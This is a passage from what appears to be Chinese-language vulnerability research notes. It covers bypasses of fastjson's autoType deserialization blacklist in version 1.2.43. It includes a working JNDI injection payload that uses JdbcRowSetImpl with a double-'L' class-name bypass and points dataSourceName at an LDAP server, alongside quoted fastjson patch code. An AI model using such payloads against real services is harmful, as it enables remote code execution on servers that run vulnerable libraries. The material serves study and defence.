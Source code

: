 ```javascript
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"ldap://127.0.0.1:2357/Command8",
    "autoCommit":true
}
```

### fastjson=1.2.43

针对双写绕过套了个子判断。

```javascript
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }
```

TypeUtils.loadClass 中除了对`L;`进行判断，还有对`[`进行了判断

```javascript
} else if (className.charAt(0) == '[') {
    Class<?> componentType = loadClass(className.substring(1), classLoader);
    return Array.newInstance(componentType, 0).getClass();
}
```

![image-20230619180428246](img/image-20230619180428246.png)

